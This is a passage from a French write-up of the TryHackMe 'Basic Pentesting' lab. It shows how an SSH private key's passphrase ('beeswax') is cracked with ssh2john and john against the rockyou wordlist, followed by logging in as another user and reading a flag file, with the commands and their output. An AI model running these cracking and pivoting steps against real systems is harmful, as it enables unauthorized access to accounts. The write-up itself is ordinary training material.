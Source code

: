 ```
```

Bien, maintenant que nous avons la clé privé il va falloir la hashé afin que john puisse la lire.

> /opt/john/ssh2john.py id_rsa > id_rsa.hash
>

Une fois hashé, john va pouvoir le lire et tenter de casser la passphrase.

> john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
>

```
Note: This format may emit false positives, so it will keep trying even after finding a
possible candidate.
Warning: detected hash type "SSH", but the string is also recognized as "ssh-opencl"
Use the "--format=ssh-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
beeswax          (id_rsa)
1g 0:00:00:10 DONE (2020-12-30 21:25) 0.09208g/s 1320Kp/s 1320Kc/s 1320KC/s *7¡Vamos!
Session completed. 
```

Bingo, john à réussis à trouver le mot de passe utiliser <u>beeswax</u>.

Retentons de nous connecter avec jan.

> ssh -i /home/kay/.ssh/id_rsa kay@10.10.47.37
>

```
jan@basic2:/home/kay$ ssh -i /home/kay/.ssh/id_rsa kay@10.10.47.37
Could not create directory '/home/jan/.ssh'.
The authenticity of host '10.10.47.37 (10.10.47.37)' can't be established.
ECDSA key fingerprint is SHA256:+Fk53V/LB+2pn4OPL7GN/DuVHVvO0lT9N4W5ifchySQ.
Are you sure you want to continue connecting (yes/no)? yes
Failed to add the host to the list of known hosts (/home/jan/.ssh/known_hosts).
Enter passphrase for key '/home/kay/.ssh/id_rsa': 

kay@basic2:~$ 
```

Et nous voilà connecter avec kay.

Il nous reste plus qu'à trouver le flag qui se trouve dans le fichier <u>pass.bak</u>.

> find / -name pass.bak 2>/dev/null
>

```
kay@basic2:~$ find / -name pass.bak 2>/dev/null
/home/kay/pass.bak
```

> cat pass.bak
>

```
kay@basic2:~$ cat /home/kay/pass.bak
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
```



Celà conclu donc la box <u>Basic Pentesting</u> sur la plateforme <u>TryHackMe</u>.

<u>Ethost.</u>